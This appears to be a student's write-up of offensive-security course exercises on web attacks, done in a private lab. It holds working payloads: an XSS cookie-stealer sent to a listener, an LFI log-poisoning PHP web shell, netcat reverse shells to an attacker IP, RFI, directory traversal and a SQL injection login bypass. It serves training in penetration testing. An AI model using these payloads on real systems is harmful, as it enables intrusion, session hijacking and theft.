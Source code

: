 # 9.5.2. Practice - Exploiting Admin Consoles
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use Burp Intruder to gain access to the phpMyAdmin site running on your Windows 10 lab machine.

- We spot a phpmyadmin login portal located at the following URL `http://192.168.231.10/phpmyadmin/`
- In order to brute-force the login we must first capture the request in Burp Suite
![[burp_capture.png]]
- we then must set the correct payload variables and set the attack type to "Pitchforkl"![[pitchfork_brute.png]]
- Finally, we setup the payloads via the "Grep Extract" section in Intruder, capturing the response ![[grep_response.png]]
-  Once these steps are complete we can bruteforce the password 
![[Successful_bruteforce.png]]


2.  Insert a new user into the "users" table.
- Once logged in, creating a user is fairly simple. Start with navigating to the "User Accounts" tab
- Click the "Create New User" button
![[admin_user_add.png]]

# 9.6.6 Practice - XSS
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.
- First must craft an XSS that was successfully steal the cookie of an administrator. We will setup a listener on port 80 and use the following snippet:
 `<script>new Image().src="http://IP.ADDRESS/cool.jpg?output="+document.cookie;</script>`
-  We then input this into the "Comments" section of the web form.
![[xss_document_cookie.png]]
- To test the validity of the XSS we then run the powershell script on the Windows machine
- We can see that the cookie was set to our listener, enabling us to adjust our cookie and hijack the admin's session
![[cookie_steal.png]]
![[session_hijack.png]]
2.  Consider what other ways an XSS vulnerability in this application might be used for attacks.
As this is a stored XSS there are numerous possible ways to exploit this XSS which would have severe implications on the server and its user's. Examples could include anything from defacing the web application to account compromise.

3.  Does this exploit attack the server or clients of the site?
As this is a stored XSS the server is on the recieving end. That being said, any user who visits the page is suseptable to attack.

# 9.7.2 Directory Traversal Vulnerabilities

## Practice - Directory Traversal Vulnerabilities

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

This exploit only requires us to visit the following url:
`http://192.168.231.10/menu.php?file=current_menu.php`

From there we can edit the field after `menu.php?file=` to any file we wish to read, for example:
`http://192.168.231.10/menu.php?file=c:\windows\system32\drivers\etc\hosts`

# 9.8.5 LFI Code Execution

#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Obtain code execution through the use of the LFI attack.
- First, we make a malicious request to the server, injecting a PHP function into the log file that will execute the OS command
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
(note the `<pre>` tag meaning the line will be saved in its preformatted state, ignore breaks and spaces)

Here we can see the command being injected into this log file.
![[log_poisoning.png]]
- We then simply navigate to the vulnerable log file and call our newly injected function
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`
![[lfi_log_ipconfig.png]]
2.  Use the code execution to obtain a full shell.
We can simply alter our URL to execute the following command:
`nc -e cmd.exe 192.168.119.231 9001`
After encoding, the full URL would resemble the following:
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20-e%20cmd.exe%20192.168.119.231%209001`
![[log_lfi_revshell.png]]

# 9.8.7 Remote File Inclusion (RFI)

## Practice - Remote File Inclusion (RFI)

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the RFI vulnerability in the web application and get a shell.
We start by creating a malicious script to be hosted on our local machine
![[rfi_malicious_file.png]]
We then setup a python server to serve this malicious file.
2.  Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.
From there we request this malicious file via the URL of the vulnerable web application 
![[lfi_whoami.png]]

3.  Use one of the webshells i
We can build on this by instead of issuing the command "whoami" we supply a url encoded reverse shell.
![[rfi_revshell.png]]

# 9.8.10 PHP wrappers
## Practice - PHP Wrappers

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the LFI vulnerability using a PHP wrapper.
We simply append the php wrapper `file=data:text/plain,hello world` to the end of our url:
`http://192.168.231.10/menu.php?file=data:text/plain,hello%20world`

2.  Use a PHP wrapper to get a shell on your Windows 10 lab machine.
For this we replace the "hello world" at the end of our previous URL with a php script designed to execute code, we also place a reverse shell as our payload for the shell_exec to execute.
`<?php echo shell_exec("nc -e cmd.exe 192.168.119.231 9001") ?>`
![[shell_exec_revshell.png]]


# 9.9.4 SQL Injection - Authentication Bypass
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.
We can see that the malicious query is returning all user data, indicating that one of the "OR" arguments was satisfied. 
![[mariadb_query.png]]

2.  SQL inject the username field to bypass the login process.
A fairly similar username of "tom ' OR 1=1;#'" will bypass the login functionality.
![[Screenshot_2022-06-10-09-40-08_508x384.png]]
3.  Why is the username displayed like it is in the web application once the authentication process is bypassed?

4.  Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?